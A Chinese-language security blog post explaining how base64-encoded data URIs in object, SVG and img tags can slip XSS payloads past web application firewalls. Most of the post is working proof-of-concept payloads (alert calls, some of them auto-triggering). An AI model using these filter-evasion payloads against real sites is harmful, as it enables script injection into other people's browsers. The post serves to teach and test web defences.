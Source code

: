 ```yaml
---
title: DATA URI Bypass WAF
date: 2017-06-07 19:25:09
categories: Web安全
tags:
    - XSS
    - DATA URI
---
```


## DATA URI

“Used to embed small items of data into a URL—rather than link to an external resource, the URL contains the actual encoded data. URIs are supported by most modern browsers except for some versions of Internet Explorer.”

Data URI 是一种提供让外置资源的直接内嵌在页面中的方案。这种技术允许我们只需单次 HTTP 请求即可获取所有需要引用的图片与样式资源。

在 RFC2397（http://tools.ietf.org/html/rfc2397）中定义了它格式规范：

```
data:[<mime type>][;charset=<charset>][;base64],<encoded data>
```

<!-- more -->

## Bypass WAF

一般来说，WAF识别XSS向量，主要通过以下规则

* html标签，如: `<script>`, `<iframe>`, `<object>`, `<svg>`等
* event handlers, 如: `onload`, `onerror`
* data Attribute
* js keyword, 如: `alert()`, `confirm()`

使用DATA URI利用base64编码数据绕过WAF对xss payload的检测。那么如何使用DATA URI执行javascript呢？

### object tag

```
# base64 decode: <script>alert(1);</script>
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=">
```

通常WAF都会拦截`<object>`标签

### svg tags

参考 [http://insert-script.blogspot.com.au/2014/02/svg-fun-time-firefox-svg-vector.html](http://insert-script.blogspot.com.au/2014/02/svg-fun-time-firefox-svg-vector.html), 使用`svg + use`执行javascript.

* test.html for firefox

```
<svg>
<use xlink:href="data:image/svg+xml;base64,
PHN2ZyBpZD0icmVjdGFuZ2xlIiB4bWxucz0iaHR0cDo
vL3d3dy53My5vcmcvMjAwMC9zdmciIHhtbG5zOnhsaW
5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hsaW5rI
iAgICB3aWR0aD0iMTAwIiBoZWlnaHQ9IjEwMCI+DQo8
YSB4bGluazpocmVmPSJqYXZhc2NyaXB0OmFsZXJ0KGx
vY2F0aW9uKSI+PHJlY3QgeD0iMCIgeT0iMCIgd2lkdG
g9IjEwMCIgaGVpZ2h0PSIxMDAiIC8+PC9hPg0KPC9zd
mc+#rectangle" />
</svg>
```

base64 payload 解码为:

```
<svg id="rectangle"
xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink"
width="100" height="100">
<a xlink:href="javascript:alert(location)">
<rect x="0" y="0" width="100" height="100" />
</a>
</svg>
```

当点击黑色方框时会触发XSS.要达到自动触发XSS的目的，可以使用如下paylaod:

```
<svg id="rectangle"
xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink"
width="100" height="100">

<script>alert(1)</script>

<foreignObject width="100" height="50"
requiredExtensions="http://www.w3.org/1999/xhtml">

<embed xmlns="http://www.w3.org/1999/xhtml"
src="javascript:alert(location)" />

</foreignObject>
</svg>
```

* better test.html for firefox

```

<svg>
<use xlink:href="data:image/svg+xml;base64,
PHN2ZyBpZD0icmVjdGFuZ2xlIiB4bWxucz0iaHR0cD
ovL3d3dy53My5vcmcvMjAwMC9zdmciIHhtbG5zOnhs
aW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hsaW
5rIiAgICB3aWR0aD0iMTAwIiBoZWlnaHQ9IjEwMCI+
PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg0KIDxmb3
JlaWduT2JqZWN0IHdpZHRoPSIxMDAiIGhlaWdodD0i
NTAiDQogICAgICAgICAgICAgICAgICAgcmVxdWlyZW
RFeHRlbnNpb25zPSJodHRwOi8vd3d3LnczLm9yZy8x
OTk5L3hodG1sIj4NCgk8ZW1iZWQgeG1sbnM9Imh0dH
A6Ly93d3cudzMub3JnLzE5OTkveGh0bWwiIHNyYz0i
amF2YXNjcmlwdDphbGVydChsb2NhdGlvbikiIC8+DQ
ogICAgPC9mb3JlaWduT2JqZWN0Pg0KPC9zdmc+#rectangle" />
</svg>
```

### img tags

```
<img src="data:image/gif;base64,R0lGODlhAQABAAD/ACwAAAAAAQABAAACADs=" onload=alert(1)>
```
